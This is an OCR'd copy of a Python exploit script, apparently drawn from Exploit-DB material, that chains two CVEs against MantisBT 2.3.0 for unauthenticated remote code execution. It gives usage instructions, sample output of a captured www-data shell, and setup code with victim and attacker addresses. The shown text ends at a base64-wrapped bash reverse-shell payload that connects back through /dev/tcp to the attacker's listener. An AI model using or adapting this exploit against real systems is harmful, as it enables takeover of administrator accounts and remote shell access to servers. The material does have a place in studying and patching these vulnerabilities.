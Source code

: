     # https://mantisbt.org/bugs/view.php?id=26091
    # https://www.exploit-db.com/exploits/41890

    '''

    This exploit chains together two CVE's to achieve unauthenticated remote code execution.
    The first portion of this exploit resets the Administrator password (CVE-2017-7615) discovered by John Page a.k.a hyp3rlinx, this portion was modified from the original https://www.exploit-db.com/exploits/41890.
    The second portion of this exploit takes advantage of a command injection vulnerability (CVE-2019-15715) discovered by 'permanull' (see references).

    Usage:
    Set netcat listener on port 4444
    Send exploit with "python exploit.py"

    Example output:

    kali@kali:~/Desktop$ python exploit.py
    Successfully hijacked account!
    Successfully logged in!
    Triggering reverse shell
    Cleaning up
    Deleting the dot_tool config.
    Deleting the relationship_graph_enable config.
    Successfully cleaned up


    kali@kali:~/Desktop$ nc -nvlp 4444
    listening on [any] 4444 ...
    connect to [192.168.116.135] from (UNKNOWN) [192.168.116.151] 43978
    bash: cannot set terminal process group (835): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@ubuntu:/var/www/html/mantisbt-2.3.0$ id
    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    '''

    import requests
    from urllib import quote_plus
    from base64 import b64encode
    from re import split


    class exploit():
        def __init__(self):
            self.s = requests.Session()
            self.headers = dict()  # Initialize the headers dictionary
            self.RHOST = "192.168.116.151"  # Victim IP
            self.RPORT = "80"  # Victim port
            self.LHOST = "192.168.116.135"  # Attacker IP
            self.LPORT = "4444"  # Attacker Port
            self.verify_user_id = "1"  # User id for the target account
            self.realname = "administrator"  # Username to hijack
            self.passwd = "password"  # New password after account hijack
            self.mantisLoc = "/mantisbt-2.3.0"  # Location of mantis in URL
            self.ReverseShell = "echo " + b64encode(
                "bash -i >& /dev/tcp/" + self.LHOST + "/" + self.LPORT + " 0>&1") + " | base64 -d | /bin/bash"  # Reverse shell payload
